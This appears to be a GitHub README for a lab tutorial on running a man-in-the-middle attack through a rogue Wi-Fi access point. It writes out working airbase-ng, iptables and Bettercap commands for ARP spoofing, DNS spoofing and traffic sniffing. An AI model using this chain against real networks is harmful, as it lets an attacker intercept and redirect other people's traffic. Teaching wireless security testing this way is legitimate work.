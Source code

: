 # Wi-Fi-Mirage-The-Illusion-of-Security
Wi-Fi Mirage: An ethical hacking toolkit to create rogue Wi-Fi access points, intercept traffic, and demonstrate network vulnerabilities.


## 🚀 Introduction
Welcome to the ultimate guide on setting up a **Man-in-the-Middle (MITM) Attack** in a controlled environment! This project is designed for educational purposes to demonstrate network vulnerabilities and the power of ethical hacking. Remember, **with great power comes great responsibility**—always have permission before testing any network!

## 🎯 Project Overview
In this project, we’ll create a rogue Wi-Fi access point and use various tools to intercept and analyze network traffic. By following the steps below, you'll learn how to set up a MITM attack, capture packets, and perform DNS spoofing to redirect users.

## 🛠️ Tools Used
- **Aircrack-ng**: A suite of tools for wireless security auditing.
- **Bettercap**: An advanced, powerful, and flexible tool for network attacks and monitoring.
- **Wireshark**: A popular network protocol analyzer for capturing and inspecting packets.
- **iptables**: A user-space utility program for configuring the Linux kernel firewall.

## 🧩 Approaches to MITM
1. **Setting Up a Rogue Access Point**: Use `airbase-ng` to create a fake Wi-Fi network.
2. **Network Sniffing**: Capture packets from the network to analyze traffic.
3. **DNS Spoofing**: Redirect users to malicious sites using Bettercap’s DNS spoofing features.
4. **ARP Spoofing**: Mislead devices into sending their data to your machine instead of the intended destination.

## 📜 Commands Used
Here’s the command lineup for the MITM setup:

### 1. Start Monitor Mode
Make sure your Wi-Fi adapter is ready to capture packets.

```bash
sudo airmon-ng start wlan0
```
![WhatsApp Image 2024-10-06 at 00 32 28_28274e26](https://github.com/user-attachments/assets/481169a9-3d9d-4d27-9af0-f07d9423caec)


### 2. Create the Rogue Wi-Fi Network
Set up a fake Wi-Fi network named "Wifi-Test".

```bash
sudo airbase-ng -e "Test-Wifi" -c 11 wlan0
```

### 3. Configure the Fake Access Point
Bring the interface up and assign it an IP address.

```bash
sudo ifconfig at0 up
sudo ifconfig at0 192.168.1.1 netmask 255.255.255.0
```

### 4. Enable Internet Access for Clients
Allow clients connected to our rogue AP to access the internet.

```bash
sudo iptables --table nat --append POSTROUTING --out-interface wlan0 -j MASQUERADE
sudo iptables --append FORWARD --in-interface at0 -j ACCEPT
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
```
![WhatsApp Image 2024-10-06 at 00 32 30_fd2c03b7](https://github.com/user-attachments/assets/e71e7926-26b3-48ab-b7a9-eb3c4608079f)

### 5. Start Bettercap
Launch Bettercap with the fake interface.

```bash
sudo bettercap -iface at0
```

### 6. Execute Bettercap Commands
Once inside Bettercap, run the following commands to set up sniffing and spoofing:

```bash
net.probe on
net.show
arp.spoof on
dns.spoof on
net.sniff on
```
![WhatsApp Image 2024-10-06 at 00 36 19_7c453712](https://github.com/user-attachments/assets/5142387b-b5db-414e-ad67-4f7bdb912449)

### 7. Ping
Checking whethere the host is up or not
![WhatsApp Image 2024-10-06 at 00 32 29_3ef2e762](https://github.com/user-attachments/assets/df6194cf-b047-4ac2-b500-23c73279f544)


### 7. Capture and Analyze Traffic
Use Wireshark to analyze captured packets. You can start Wireshark in a separate terminal.

```bash
wireshark
```
![WhatsApp Image 2024-10-06 at 01 05 17_f3445aa7](https://github.com/user-attachments/assets/71391832-9629-4e94-bf40-a9dce9c52329)


## 📱 Mobile Connection Screenshot
![WhatsApp Image 2024-10-06 at 00 32 30_ccc72314](https://github.com/user-attachments/assets/7578e02e-fabb-422b-baf1-f2109657856c)

## ⚠️ Disclaimer
This guide is for educational purposes only. Use the information responsibly and only on networks where you have explicit permission to perform penetration testing. Unauthorized access to networks is illegal and unethical.

## 🙌 Conclusion
This project provides a foundational understanding of network vulnerabilities and ethical hacking. Remember to share your findings and experiences responsibly!
